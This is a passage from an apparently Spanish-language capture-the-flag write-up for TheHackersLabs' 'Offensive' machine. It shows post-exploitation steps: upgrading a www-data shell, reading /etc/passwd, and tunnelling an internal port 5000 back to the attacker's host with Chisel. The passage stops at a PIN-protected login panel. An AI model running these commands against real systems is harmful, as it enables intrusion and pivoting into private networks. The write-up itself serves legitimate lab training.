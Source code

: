 ## Lateral Movement

```terminal
script /dev/null -c bash
www-data@TheHackersLabs-Offensive:/var/www/wordpress$ ^Z
/home/kali/Documents/thl/offensive:-$ stty raw -echo;fg
						reset xterm
www-data@TheHackersLabs-Offensive:/var/www/wordpress$ export TERM=xterm
www-data@TheHackersLabs-Offensive:/var/www/wordpress$ export SHELL=bash
www-data@TheHackersLabs-Offensive:/var/www/wordpress$ stty rows 34 columns 158
```

```terminal
www-data@TheHackersLabs-Offensive:/var/www/wordpress $ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
maria:x:1001:1001::/home/maria:/bin/bash
```

Como usuario `www-data`, identifico un servicio interno corriendo en el puerto 5000.

```terminal
www-data@TheHackersLabs-Offensive:/var/www/wordpress$ ss -tulnp
```

![](assets/img/thl-writeup-offensive/offensive3_1.png)

Para interactuar con este servicio, descargo la Chisel y redirijo el puerto 5000 a mi maquina.

```terminal
www-data@TheHackersLabs-Offensive:/tmp$ wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
www-data@TheHackersLabs-Offensive:/tmp$ chmod +x chisel_1.10.1_linux_amd64

/home/kali/Documents/thl/offensive:-$ chisel server --reverse -p 4444
2025/03/06 22:28:46 server: Listening on http://0.0.0.0:4444

www-data@TheHackersLabs-Offensive:/tmp$ ./chisel_1.10.1_linux_amd64 client 192.168.0.99:4444 R:5000:127.0.0.1:5000
2025/03/06 19:29:53 client: Connected (Latency 297.43µs)
```

Posteriormente, encuentro un panel de login que ya tiene las credenciales precargadas, pero requiere un PIN de 4 dígitos para continuar.

